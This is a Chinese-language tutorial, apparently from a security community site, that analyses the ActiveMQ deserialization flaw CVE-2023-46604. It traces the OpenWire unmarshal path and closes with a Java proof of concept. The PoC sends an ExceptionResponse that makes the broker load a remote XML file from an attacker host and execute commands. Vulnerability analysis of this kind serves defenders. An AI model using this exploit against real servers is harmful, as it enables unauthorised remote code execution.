




# 奇安信攻防社区-【Web实战】ActiveMQ漏洞分析保姆教程（CVE-2023-46604）

### 【Web实战】ActiveMQ漏洞分析保姆教程（CVE-2023-46604）

ActiveMQ漏洞分析保姆教程（CVE-2023-46604） by 猫蛋儿安全团队

# **一、寻找触发点**

首先通过代码对照工具需要漏洞触发点位置。根据对于的代码定位到BaseDataStreamMarshaller这个类的位置，可以看到这里通过反射调用实例化了一个构造函数传参为String的类。并且可以看到5.18.3增加了过滤规则，所以我们跟进IDEA里面进行进一步分析。

  
进入5.18.3版本的代码查看过滤函数。这里对类进行了一次判断，确定传入类是不是继承来自于另一个父类Throwable，如果不是抛出异常。


# **二、触发点分析**

我们通过对照函数找到了触发点，下一步我们将对触发函数进行进一步的分析首先找到触发点的位置。跟到BaseDataStreamMarshaller.createThrowable位置。  
  
寻找createThrowable函数是什么位置进行触发。可以看到可以通过tightUnmarsalThrowable、looseUnmarsalThrowable两个方法进行触发。

我们了解到这里是通过传入的参数dataIn获取的传入的claszz和message。


回到刚才分析的位置，我们选择跟进其中一个looseUnmarsalThrowable进行分析，继续向上寻找looseUnmarsalThrowable的触发点。可以看到存在3个触发点，分别是ConnectionErrorMarshaller、ExceptionResponseMarshaller、MessageAckMarshaller。


我们选择跟进其中一个ExceptionResponseMarshaller进行分析，进入looseUnmarshal方法后，dataIn可控，从上层DataInput dataIn传入进来。另外我们通过层次结构分析可以看到方法上层通过OpenWireFormat进行调用，所以我们继续向上。


进入doUnmarshal，我们从头开始进行分析，传入DataInput dis后，会读取dis的readByte()，之后对其选择对应dataType的执行器，而我们从上面的分析可以得知我们需要触发ConnectionErrorMarshaller、ExceptionResponseMarshaller、MessageAckMarshaller这三个类的looseUnmarshal方法，可以看到ExceptionResponseMarshaller为31，ConnectionErrorMarshaller为16，MessageAckMarshaller为22。

我们上面拿的是ExceptionResponseMarshaller，所以我们的dataType为31，之后dsm创建了一个对应的类，也就是ExceptionResponse类。最后对应的执行器带着传入的参数dis和创建的类data执行looseUnmarshal向下。

这里我们可以得知DataInput dis需要是ExceptionResponse类dataType才可为31，才可以创建对应的执行器，也就是dsm才可为ExceptionResponseMarshaller。


从doUnmarshal方法看完之后我们继续向上我们跟到了unmarshal方法的位置。


  
通过分析和查询资料得知，不同协议的消息都会从此进行解析。我们可以写一个生产消费的demo去测试TCP协议的传输。然后我们继续向下跟进。


这里我们跟进到了TcpTransport类，readCommand()<—doRun()<—run()，这里其实关键的位置就是readCommand()方法，这里的wireFormat.unmarshal是对数据进行格式化，可以认为这是一个反序列化过程。这个Command也就是我们生成的类，所以我们的发送的消息数据也需要是序列化之后的数据。

到此我们的触发点分析也就结束了，现在我们就还需要解决两个问题

1.如何将marshal后的ExceptionResponse类发送出去。

2.寻找到一个构造函数为String类型的利用链。

# **三、\*\***ExceptionResponse**\*\*类**

问题1：如何将marshal后的ExceptionResponse类发送出去；

这个问题我们可以通过TcpTransport.oneway方法。这个oneway()方法里面传入的Object Command实际上就是我们正常发送消息使用的producer.send(ObjectMessage)里面的ObjectMessage。这里可以参考以下文章。

[https://www.cnblogs.com/mthoutai/p/6774920.html](https://www.cnblogs.com/mthoutai/p/6774920.html)

[https://www.iteye.com/blog/donald-draper-2348440](https://www.iteye.com/blog/donald-draper-2348440)

另外关于readCommad()获取消息的过程可以参考下面的文章。

[https://my.oschina.net/u/4410490/blog/3583489](https://my.oschina.net/u/4410490/blog/3583489)


我们简单跟进一下生产者的send代码。

  
一路跟进

producer.send(message);

ActiveMQMessageProducerSupport.class

ActiveMQMessageProducer.class

ActiveMQSession.class—>this.connection.syncSendPacket

ActiveMQConnection.class—> this.transport.request(command)

Transport.class

ResponseCorrelator.class

—>this.asyncRequest(command, (ResponseCallback)null);

—>this.next.oneway(command);

Transport.class

MutexTransport.class—> oneway(Object command)

AbstractInactivityMonitor.class

—> oneway(Object o)

—> this.doOnewaySend(o)


  
AbstractInactivityMonitor完毕消息发送准备，随后就会调用TcpTransport。OpenWireFormat，DataOutputStream通过tcp发送消息。


总结一下消息发送流程：

1.发送消息入口

2.调用ActiveMQMessageProducerSupport的send方法

3.调用ActiveMQSession的send接口进行消息发送

4.ActiveMQConnection发送消息

5.ResponseCorrelator发送request

6.调用MutexTransport来发送消息

7.调用AbstractInactivityMonitor完毕消息发送准备

8.调用TcpTransport、OpenWireFormat、DataOutputStream

9.终于完毕通过tcp发送消息

所以我们只要通过oneway(Object o)的方法就相当于producer.send(message);直接发送消息，我们ExceptionResponse类传进去就相当于序列化发送了消息。所以这里我们只需要获取到当前ActiveMQConnection的Transport transport，就可以调用oneway()发送消息，代码如下。


//创建连接工厂  
ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
//创建连接  
Connection connection = activeMQConnectionFactory.createConnection();  
//打开连接  
connection.start();

//获取oneway方法

((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);

# **四、\*\***ClassPathXmlApplicationContext**\*\*类**

问题2:寻找到一个构造函数为String类型的利用链;

这里其他师傅已经找到利用的点了，这里就简单弄一下。

[https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw](https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw)

ClassPathXmlApplicationContext类可以加载XML进行命令执行。

因为ActiveMQ自带spring相关依赖，所以可以直接利用这个方法。


因为这个漏洞触发可以看到都是需要是Throwable。所以我们只需要制作一个相同路径的ClassPathXmlApplicationContext类，触发之后系统将会寻找对应的ClassPathXmlApplicationContext类。


制作一个ClassPathXmlApplicationContext类。


按照ActiveMQ的发送消息demo写一个利用的POC。


```jsimport
import org.apache.activemq.ActiveMQConnectionFactory;  
import org.apache.activemq.command.ExceptionResponse;  
import org.apache.activemq.transport.AbstractInactivityMonitor;  
import org.springframework.context.support.ClassPathXmlApplicationContext;  

import javax.jms.\*;  
import java.io.\*;  
import java.lang.reflect.Method;  

public class MQ\_POC {  
    private static final String *ACTIVEMQ\_URL* \= "tcp://172.20.10.7:61616";  
    //定义发送消息的队列名称  
    private static final String *QUEUE\_NAME* \= "tempQueue";  
    public static void main(String\[\] args) throws Exception {  
        //创建连接工厂  
        ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
        //创建连接  
        Connection connection = activeMQConnectionFactory.createConnection();  
        //打开连接  
        connection.start();  
        Throwable obj2 = new ClassPathXmlApplicationContext("http://172.20.10.4/poc.xml");  
        ExceptionResponse exceptionResponse = new ExceptionResponse(obj2);  

        ((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);  
        connection.close();  
    }  
}
```

简单跟进一下，就不深入分析了。




成功命令执行。


# **五、漏洞流程完整调试**

首先我们的讲序列化好的数据进行发送。

((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);

这里将会走以下流程

1.发送消息入口

2.调用ActiveMQMessageProducerSupport的send方法

3.调用ActiveMQSession的send接口进行消息发送

4.ActiveMQConnection发送消息

5.ResponseCorrelator发送request

6.调用MutexTransport来发送消息

7.调用AbstractInactivityMonitor完毕消息发送准备

8.调用TcpTransport、OpenWireFormat、DataOutputStream

9.终于完毕通过tcp发送消息


ActiveMQ将会监听TCP对应的61616端口。

  
对应的会传递到TcpTransport


跳转到OpenWireFormat开始进行反序列化。


  
我们的类型为对应的31，之后会进入tightUnmarshal方法或者looseUnmarshal方法。（这里用looseUnmarshal方法举例）

跳转到对应的looseUnmarshal方法，之后进入looseUnmarsalThrowable方法。


进入looseUnmarsalThrowable方法，将获取clazz和message随后将其传入createThrowable

  
进入createThrowable，反射调用传入clazz对应的构造函数然后进行实例化。


由于我们poc构造的clazz是ClassPathXmlApplicationContext类，所以对应跳转到改类。


将传入的位置传入对应的触发点。



成功利用。


